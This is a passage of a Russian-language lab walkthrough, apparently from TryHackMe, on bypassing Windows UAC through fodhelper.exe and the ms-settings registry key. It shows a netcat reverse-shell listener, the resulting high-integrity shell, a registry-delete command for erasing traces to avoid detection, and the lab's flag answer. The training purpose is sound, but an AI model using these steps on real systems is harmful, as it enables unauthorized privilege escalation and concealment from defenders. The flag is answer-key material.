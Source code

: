 Обратите внимание, что нам нужно создать пустое значение с именем DelegateExecute, чтобы ассоциация класса вступила 
в силу. Если это значение реестра отсутствует, операционная система проигнорирует команду и вместо этого будет 
использовать общесистемную ассоциацию класса.

Мы настраиваем прослушиватель с помощью netcat на нашей машине:
```commandline
nc -lvp 4444
```

А затем приступим к выполнению fodhelper.exe, что в свою очередь запустит выполнение нашей обратной оболочки:

Командная строка
```commandline
C:\> fodhelper.exe
```

Оболочка атакующего
```commandline
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Полученная оболочка работает с высокой степенью целостности, что свидетельствует о том, что нам удалось успешно 
обойти UAC.

Чтобы получить флаг fodhelper, используйте новую оболочку для выполнения:

Администратор: Командная строка
`C:\> C:\flags\GetFlag-fodhelper.exe`
Примечание: Имейте в виду, что флаг будет возвращен только в том случае, если вы успешно обошли UAC с помощью 
fodhelper и только из получившейся высокоинтегрированной оболочки.

#### Расчищаем наши следы
В результате выполнения этого эксплойта на целевой системе были созданы некоторые артефакты в виде ключей реестра. 
Чтобы избежать обнаружения, нам нужно убрать за собой с помощью следующей команды:

`reg delete HKCU\Software\Classes\ms-settings\ /f`
Примечание: Обязательно выполните данную команду, чтобы избежать помех при выполнении следующих задач.

### Ответьте на вопросы ниже
Какой флаг возвращается при запуске эксплойта fodhelper?
```commandline
THM{AUTOELEVATE4THEWIN}
```
